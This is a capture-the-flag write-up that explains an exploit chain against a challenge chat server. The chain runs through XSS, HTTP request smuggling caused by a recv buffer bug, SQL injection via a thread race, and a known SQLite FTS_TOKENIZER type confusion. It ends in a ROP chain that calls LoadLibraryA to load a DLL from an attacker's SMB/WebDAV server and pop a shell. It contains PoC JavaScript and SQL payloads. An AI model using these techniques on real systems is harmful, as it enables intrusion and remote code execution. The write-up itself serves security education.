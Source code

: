 ## 0. XSS on the chat server

The chat server sets `$(new_item).html(...user controlled value...)`, so it has XSS. It also executes `<script>` tag, by jQuery.

## 1. HTTP request injection by server's parser bug

The backend server's HTTP recv routine is pretty naive:

```c
#define BUFSIZE 1024
nbytes = recv(cli_socket, (char *)buffer, BUFSIZE, 0);
```

and for all responses, it sends Connection: keep-alive header so the socket isn't closed.

When chrome send a request with body, it sends the data separately. So the body will be the next HTTP request to the server, allowing some forbidden methods (forbidden by CORS, because of the different port).

PoC:

```js
var go = (payload) => {
    var xhr = new XMLHttpRequest();
    var buffer = new Uint8Array(payload.length);
    payload.split('').forEach(
        (x, y) => buffer[y] = x.charCodeAt(0)
    );
    xhr.open('POST', baseURL + 'a'.repeat(0x263), true);
    xhr.send(buffer);
};

```

## 2. SQL Injection via race condition

The query-string parser on the backend uses global array to store parsed values, and it has reentrancy problem between threads (all requests are processed by threaded routines), allowing some SQL injection filter to be bypassed.

Routine for /register has a slow filtering routine (O(n\*m\*m)), and the one for /search has a fast filtering one (O(n)).

One can send `/search?search='a' * 64 + "', 1); ... query ... "` and execute some statements since there are no callback, allowing the execution of multiple statements.

## 3. SQLite 1-day

Since the DLL is given, participants can get the version, and find that [some 1days](https://www.blackhat.com/docs/us-17/wednesday/us-17-Feng-Many-Birds-One-Stone-Exploiting-A-Single-SQLite-Vulnerability-Across-Multiple-Software.pdf) works. We used the chaintin's one with some variants on exploit.

There is two vulnerability: leak via `FTS_TOKENIZER('...')` and a type confusion via `SELECT FTS_TOKENIZER('simple', x'4141414100000000'); CREATE VIRTUAL TABLE a USING FTS3(b);`. Since there is a search function which just returns a value from the db, one can insert a value to `chat_table` with their `usernum` value, and just send `postMessage` to receive the result from the db.

After leaking the sqlite3 module base via storing `fts_tokenizer('simple')`, we can either heap-spray some pointers or find a vector that stores a controlled values to the binary's data section, because when the type confusion is triggered, it crashes like:

```
call [rdi+0x8] # rdi: controlled value (ex. 0x41414141)
```

Heap-spray can be possible, but it's not reliable in my case since all string in sqlite is null-terminated, and pointers too. I used `pragma soft_heap_limit = controlled_value;`, which is stored on binary base + 0x190898.

Then EIP is controllable.

### Exploit

Since EIP is controlled, other things can be possible. Fortunately the request is stored on the stack with 1024 byte buffer, and there is a gadget that directly jumps the stack to our payload:

```
0x00000200000db6ac : add rsp, 0x1030 ; pop rdi ; ret

(obtained by ROPgadget)
```

Then the stack is on &(payload[96]). Then we can ROP on the sqlite3.dll. Our ROP chain is:

```
pop rax # writable + 0..len - 0x10
pop rcx # value
mov [rax + 0x10], rcx (n times)
...
pop rcx # writable
[LoadLibraryA stub on sqlite3.dll]
```

Then we can load a DLL from SMB / WebDAV directory on our server (attacker's server), and pop a shell.